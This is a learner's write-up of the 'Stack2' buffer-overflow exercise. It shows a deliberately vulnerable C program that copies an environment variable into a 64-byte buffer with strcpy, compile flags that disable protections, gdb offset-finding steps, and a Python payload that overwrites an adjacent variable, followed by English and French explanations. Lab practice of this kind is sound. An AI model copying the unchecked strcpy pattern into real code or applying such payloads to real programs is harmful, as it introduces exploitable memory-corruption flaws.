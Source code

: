 # Objective

Stack2 looks at environment variables, and how they can be set.

# Source code

```c
#include <stdlib.h>
#include <unistd.h>
#include <stdio.h>
#include <string.h>

int main(int argc, char **argv)
{
  volatile int modified;
  char buffer[64];
  char *variable;

  variable = getenv("GREENIE");

  if(variable == NULL) {
      errx(1, "please set the GREENIE environment variable\n");
  }

  modified = 0;

  strcpy(buffer, variable);

  if(modified == 0x0d0a0d0a) {
      printf("you have correctly modified the variable\n");
  } else {
      printf("Try again, you got 0x%08x\n", modified);
  }

}
```

# Explanation

1. **Compile**
```bash
gcc -m32 -std=gnu89 -fno-stack-protector -g -z execstack -no-pie Stack2.c -o Stack2
```

2. Find
```bash
#Run in gdb
gdb ./Stacktwo
break main
run
```
![Inital](Images/InitialGDB.png)

```
print &buffer
print &modified
print (char *)&modified - (char *)&buffer 
64   #Our offset
```
![Offset](Images/OffsetResult.png)
-------------------------------------------------------------------

- For this exercise I need to change `modified` to `0x0d0a0d0a` from a Env variable called GREENIE

```bash
#No space in zsh or else error for daaaaays
#"<I" means “pack a 32-bit unsigned int in little-endian.” That yields exactly the 4-byte sequence
export GREENIE="$(python3 -c 'import sys,struct; sys.stdout.buffer.write(b"A"*64 + struct.pack("<I",0x0d0a0d0a))')"

#Print env into .bin
printf "%s" "$GREENIE" > stacktwo.bin

#Verify
printf "%s" "$GREENIE" | hexdump -C
wc -c stacktwo.bin

#run code
./Stacktwo

#SUCCESS
```
![Success1](Images/Ste1Success.png)
![Success2](Images/Ste2Success.png)
![Success3](Images/Ste3Success.png)
![Success4](Images/Ste4Success.png)

------------------------------------------------------------------

# What I learned :

Every time I run a program from shell, the shell “hands off” a copy of its environment to that new process. By doing:

```bash
export GREENIE="…your payload…"
./stack2
```

Telling the shell:
1. “Attach an environment variable called `GREENIE` with this value to _every_ process I launch from now on.”
2. When running `./stack2`, the kernel creates a new process whose _environment block_ includes `GREENIE`.
3. Inside C code, this line…

```c
variable = getenv("GREENIE");
```
- …looks up the `GREENIE` entry in that environment block and returns a pointer to its bytes.
- You then do `strcpy(buffer, variable)`, which copies _exactly_ what you set in `GREENIE` into `buffer` and (overflow!) into `modified`.

# Ce que j’ai appris

Chaque fois que je lance un programme depuis le shell, celui-ci “transmet” une copie de son environnement au nouveau processus. En faisant :

```bash
export GREENIE="…your payload…"
./stack2
```

Je demande au shell :
1. « Ajoute une variable d’environnement nommée GREENIE avec cette valeur à tout processus que je lance à partir de maintenant. »
2. Au démarrage de ./stack2, le noyau crée un nouveau processus dont le bloc d’environnement contient GREENIE.
3. Dans le code C, cette ligne :

```bash
variable = getenv("GREENIE");
```

- …cherche l’entrée `GREENIE` dans ce bloc d’environnement et renvoie un pointeur vers ses octets.
- Ensuite, `strcpy(buffer, variable)` copie exactement la valeur de GREENIE dans buffer et (overflow !) jusqu’à écraser modified.
